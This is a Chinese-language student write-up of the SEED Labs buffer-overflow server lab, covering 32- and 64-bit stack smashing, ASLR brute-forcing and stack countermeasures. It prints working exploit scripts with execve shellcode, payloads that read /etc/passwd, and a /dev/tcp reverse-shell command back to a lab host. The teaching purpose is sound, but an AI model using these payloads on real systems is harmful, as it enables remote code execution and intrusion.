


Buffer Overflow Attack Lab(Server Version)
环境
修改server_code中的Makefile,设置L1为122。对应上课日期10.22

在server-code编译代码。相当于服务器上执行了这些32位或者64位程序。但是作为一个攻击者，应该是不能获取这些信息的。
make
make install
启动docker。（原来的Ubuntu24.04没有成功，后面换了seedlab预构建的虚拟机就可以了）
sudo docker-compose build
sudo docker-compose up
关闭保护措施，方便后续的攻击。

Task 1: Get Familiar with the Shellcode
里面有两个 Python 程序:shellcode_32.py 和 shellcode_64.py，分别用于 32 位和 64 位 Shellcode。这两个 Python 程序将把二进制 Shellcode 写入 codefile_32 和 codefile_64 中。然后，您可以使用 call_shellcode 来执行其中的 Shellcode。
32位的shellcode如图所示。

可以通过call_shellcode来执行shellcode。

Task 2: Level-1 Attack
向服务器发送测试信息。可以观察服务器返回的信息。同样可以通过这种方式发送我们的shellcode。
echo hello | nc 10.9.0.5 9090

可以看到ebp的值为 0xffffd528, buffer的地址起点为 0xffffd4ac。
首先观察exploit.py的payload结构，将buffer全部填冲为nop，start为shellcode的起点，ret是新的返回地址，offset是buffer地址距离返回地址的偏移。
所以offset=0xffffd528 - 0xffffd4ac + 4。
ret由于我们中间填充了nop,所以只要比之前的return address大，shellcode之前就行。之前的return address= 0xffffd528+4。 start在ret上或后面就行。
所以export.py代码如下
#!/usr/bin/python3
import sys
shellcode = (
"\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
"\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
"\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
"/bin/bash*"
"-c*"
# The * in this line serves as the position marker *
"/bin/ls -l; echo Hello 32; /bin/tail -n 2 /etc/passwd *"
"AAAA" # Placeholder for argv[0] --> "/bin/bash"
"BBBB" # Placeholder for argv[1] --> "-c"
"CCCC" # Placeholder for argv[2] --> the command string
"DDDD" # Placeholder for argv[3] --> NULL
).encode('latin-1')
content = bytearray(0x90 for i in range(517))
start = 250
content[start:start + len(shellcode)] = shellcode
ret = 0xffffd528 + 8
offset = 0xffffd528 - 0xffffd4ac + 4
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
with open('badfile', 'wb') as f:
f.write(content)
可以看见成功执行了我们的shellcode。

当然也可以反弹shell。我们修改shellcode片段如下。
shellcode = (
"\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
"\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
"\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
"/bin/bash*"
"-c*"
# The * in this line serves as the position marker *
"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1 *"
"AAAA" # Placeholder for argv[0] --> "/bin/bash"
"BBBB" # Placeholder for argv[1] --> "-c"
"CCCC" # Placeholder for argv[2] --> the command string
"DDDD" # Placeholder for argv[3] --> NULL
).encode('latin-1')同时监听9090端口就可以查看反弹回来的shell。
在后面的三个任务中，我都采用返回现实passwd的方法，来判断是否攻击成功。
Task 3: Level-2 Attack
发送一个Hello到任务二的服务器

任务二的信息更少，只有Buffer的地址信息。另一个对您可能有用的事实是，由于内存对齐的原因， 在 32 位程序中帧指针的值总是 4 的倍数，在 64 位程序中则是 8 的倍数。然后告诉我缓冲区的大小是100到200。
只需要将buffer把缓冲区全部都覆盖为返回地址，再进行跳转即可。start大于前面的ret即可。但是start不能太大，不然shellcode写不下。
content = bytearray(0x90 for i in range(517))
start = 300
content[start:start + len(shellcode)] = shellcode
ret = 0xffffd468 + 248
# offset = 240
for offset in range(0, 240, 4):
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 
Task 4: Level-3 Attack

与 32 位机器上的缓冲区溢出攻击相比，64 位机器上的攻击更加困难。尽管x64 体系结构支持 64 位地址空间，但只允许从 0x00 到 0x00007fffffff 的地址。这意味着对于每个地址（8 字节），最高的两个字节总是零。这会引发问题。在缓冲区溢出攻击中，我们需要使用strcpy 将 content 复制到堆栈中。strcpy 函数在遇到 0 时会终止。因此，如果在 content 中间出现 0，则在 0 之后的内容都不能被复制到堆栈中。
在存储ret 值的时候， 使用的是小端方式：“0x00007fffffffdfd0”是以“\xd0\xdf\xff\xff\0xff\0x7f\0x00\0x00”的形式存储的, 而之前的ret address最后两位也是\0x00\0x00，所以可以服用之前的地址。而且要保证覆盖后的ret其他字节也没有\0x00。因为ret后面不能写入任何信息，所以需要把shellcode写在前面。
ret=0x00007fffffffe0f0
offset=0x00007fffffffe1c0 - 0x00007fffffffe0f0 + 8
start = 0
#!/usr/bin/python3
import sys
shellcode = (
"\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
"\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
"\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
"\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
"/bin/bash*"
"-c*"
# The * in this line serves as the position marker *
#"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1. *"
"/bin/ls -l; echo Hello 64; /bin/tail -n 4 /etc/passwd *"
"AAAAAAAA" # Placeholder for argv[0] --> "/bin/bash"
"BBBBBBBB" # Placeholder for argv[1] --> "-c"
"CCCCCCCC" # Placeholder for argv[2] --> the command string
"DDDDDDDD" # Placeholder for argv[3] --> NULL
).encode('latin-1')
content = bytearray(0x90 for i in range(517))
start = 0
content[start:start + len(shellcode)] = shellcode
ret=0x00007fffffffe0f0
offset=0x00007fffffffe1c0 - 0x00007fffffffe0f0 + 8
content[offset: offset + 8] = (ret).to_bytes(8, byteorder='little')
with open('badfile', 'wb') as f:
f.write(content)

Task 5: Level-4 Attack

可见现在缓冲区小了很多，如果采用任务四的方法，则会因为无法输入完整shellcode无法成功。
把返回地址增加到ebp+1200就可以了。这里我也不知道为什么。我猜测是因为在main函数输入了buffer，然后在函数内strcpy的时候被截断了，然后就直接返回到main函数中，返回地址刚好命中shellcode，就在main函数中执行了我们的shellcode
课程补充
审计stack.c源代码
badfile是从main()出来的，bof()是攻击函数。
数据流：main() -> dummy_function(char *str) (中间填充了1000个字节) ->bof(char *str)
void dummy_function(char *str) { char dummy_buffer[1000]; memset(dummy_buffer, 0, 1000); bof(str); }所以这个返回地址就是返回到main()函数中，在main()执行我们的shellcode，因为中间有1000个字节的填充，所以可以估计这个返回地址大概会加1000多，多次尝试可以估计。
content = bytearray(0x90 for i in range(517))
start = 0
content[517-len(shellcode): 517] = shellcode
ret= 0x00007fffffffe1c0 + 1200
offset=0x00007fffffffe1c0 - 0x00007fffffffe160 + 8
content[offset: offset + 8] = (ret).to_bytes(8, byteorder='little')

Task 6: Experimenting with the Address Randomization
开启地址随机化。

发送两个hello到服务器，可以看见每次地址都不一样。
暴力求解。使用 Task2 中 reverse shell 的 exploit.py 代码，执行命令
./brute-force.sh
运气很差。。。运行了接近13分钟才获取到了shell。
Tasks 7: Experimenting with Other Countermeasures
栈保护
编辑 Makefile ，去除 -fno-stack-protector 选项，重新编译生成可执行文件。

重新编译后，将badfile输入到程序中。发现程序检测到了攻击。

栈可执行
进入Makefile将-z execstack删除

可以看见开启这个保护之后，之前的shellcode都无法执行。

总结
通过这个实验了解了栈溢出攻击和栈相关的保护。本次栈溢出的利用方式主要是通过shellcode，即ret2shellcode，shellcode的编写也是很重要的一环，要比较熟悉汇编代码，本次实验虽然没有具体让我们自己设计，可以在未来继续学习。栈溢出的原理并不难，算是入门级别的二进制漏洞。